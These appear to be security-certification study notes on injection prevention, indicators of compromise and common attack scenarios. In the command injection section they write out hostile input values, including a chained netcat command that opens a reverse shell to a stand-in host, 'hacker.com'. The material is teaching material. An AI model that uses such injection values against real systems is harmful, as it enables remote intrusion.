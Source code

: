 **Injection Attack Prevention:**
- **Input Validation**: Sanitizing all user-provided data before processing
- **Parameterized Queries**: Preventing SQL injection through proper query construction
- **Whitelist Filtering**: Allowing only known-good input patterns
- **Output Encoding**: Properly encoding data before display to prevent XSS
- **Least Privilege**: Running applications with minimal necessary permissions

**Indicators of Compromise Analysis:**
- **Account Lockouts**: Multiple failed login attempts indicating brute force attacks
- **Concurrent Sessions**: Same account active from multiple locations simultaneously
- **Impossible Travel**: Geographically impossible login timing (NY to London in 1 hour)
- **Resource Spikes**: Unusual CPU/memory/network usage indicating malware or mining
- **Missing Logs**: Gaps suggesting attacker log tampering to cover tracks

**IoC Investigation Considerations:**
- **False Positives**: Not all indicators necessarily mean compromise occurred
- **Context Analysis**: Evaluating multiple indicators together for accurate assessment
- **Time Correlation**: Analyzing timing relationships between different indicators
- **User Behavior**: Distinguishing legitimate user activity from suspicious activity
- **System Errors**: Differentiating between security incidents and technical problems

**Command Injection Examples:**
- **Basic Injection**: diontraining.com && hostname (executes ping then hostname command)
- **Shell Access**: diontraining.com && /bin/sh | nc hacker.com 443 (establishes reverse shell)
- **Command Chaining**: Using && to execute multiple commands sequentially
- **Input Validation**: Accepting only IP addresses/domains, ignoring additional parameters
- **Sanitization**: Removing or escaping special characters that enable command chaining

**Real-World Attack Scenarios:**
- **Banking Applications**: Capturing login sessions for unauthorized transactions
- **E-commerce Sites**: Session hijacking for unauthorized purchases and account takeover
- **Corporate Networks**: Privilege escalation for lateral movement and data exfiltration
- **Web Applications**: Directory traversal accessing sensitive configuration files
- **DNS Infrastructure**: Cache poisoning redirecting users to phishing sites

## 🏷️ Domain Tags

**#Domain2** - Threats, Vulnerabilities & Mitigations
- Malicious activity analysis and indicators
- Attack vector identification and classification
- Compromise detection and incident response
- Vulnerability exploitation techniques